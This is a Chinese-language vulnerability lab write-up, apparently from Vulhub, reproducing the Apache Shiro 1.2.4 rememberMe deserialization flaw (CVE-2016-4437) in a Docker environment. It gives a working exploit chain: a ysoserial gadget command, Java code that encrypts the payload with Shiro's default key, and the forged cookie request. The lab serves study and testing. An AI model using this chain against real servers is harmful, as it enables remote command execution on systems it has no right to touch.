

# Apache Shiro 1.2.4 反序列化漏洞（CVE-2016-4437）

Apache Shiro 是一款开源安全框架，提供身份验证、授权、密码学和会话管理。Shiro 框架直观、易用，同时也能提供健壮的安全性。

Apache Shiro 1.2.4 及以前版本中，加密的用户信息序列化后存储在名为 remember-me 的 Cookie 中。攻击者可以使用 Shiro 的默认密钥伪造用户 Cookie，触发 Java 反序列化漏洞，进而在目标机器上执行任意命令。

## 漏洞环境

执行如下命令启动一个使用了 Apache Shiro 1.2.4 的 Web 服务：

```
docker compose up -d
```

服务启动后，访问 `http://your-ip:8080` 可使用 `admin:vulhub` 进行登录。

## 漏洞复现

使用 ysoserial 生成 CommonsBeanutils1 的 Gadget：

```
java -jar ysoserial-master-30099844c6-1.jar CommonsBeanutils1 "touch /tmp/success" > poc.ser
```

使用 Shiro 内置的默认密钥对 Payload 进行加密：

```java
package org.vulhub.shirodemo;

import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.codec.CodecSupport;
import org.apache.shiro.util.ByteSource;
import org.apache.shiro.codec.Base64;
import org.apache.shiro.io.DefaultSerializer;

import java.nio.file.FileSystems;
import java.nio.file.Files;
import java.nio.file.Paths;

public class TestRemember {
    public static void main(String[] args) throws Exception {
        byte[] payloads = Files.readAllBytes(FileSystems.getDefault().getPath("/path", "to", "poc.ser"));

        AesCipherService aes = new AesCipherService();
        byte[] key = Base64.decode(CodecSupport.toBytes("kPH+bIxk5D2deZiIxcaaaA=="));

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }
}
```

然后发送包含加密 Payload 的 rememberMe Cookie：

```
GET / HTTP/1.1
Host: your-ip:8080
Cookie: rememberMe=<encrypted_payload>

```

可见，`touch /tmp/success` 命令已执行：


